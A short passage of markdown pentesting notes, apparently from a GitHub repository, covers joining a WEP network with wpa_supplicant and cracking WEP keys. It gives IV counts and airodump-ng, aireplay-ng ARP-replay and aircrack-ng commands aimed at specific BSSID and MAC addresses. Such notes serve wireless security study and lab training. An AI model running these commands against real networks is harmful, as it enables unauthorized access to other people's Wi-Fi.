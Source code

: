 <img src="./images/mpdu.png" width="700"/>

##### Connecting using wpa_supplicant

```
wpa_supplicant -i wlan0 -c wep.conf
wpa_supplicant -B -i wlan0 -c wep.conf
```

wep.conf
```
network={
    scan_ssid=1
    ssid="WepCorpo"
    key_mgmt=NONE
    wep_key0="Password123"
    wp_tx_keyidx=0
}
```

##### Crack WEP
- 250,000 IVs for cracking 64 bit WEP Key
- 1,500,000 IVs for cracking 128-bit WEP Key

--> You can do passive IV capture (but it will take time)  
OR
--> Inject traffic to force more packets and more IVs (Replay Attack) 
- Capture ARP packet and send to AP, it will send reply.

```
sudo airodump-ng -i wlan1 --bssid 14:D6:4D:26:73:96 -w wep
sudo aireplay-ng -3 -b 14:D6:4D:26:73:96 -h 66:B9:B8:1D:EC:66 wlan1
sudo aircrack-ng wep-01.ivs
```
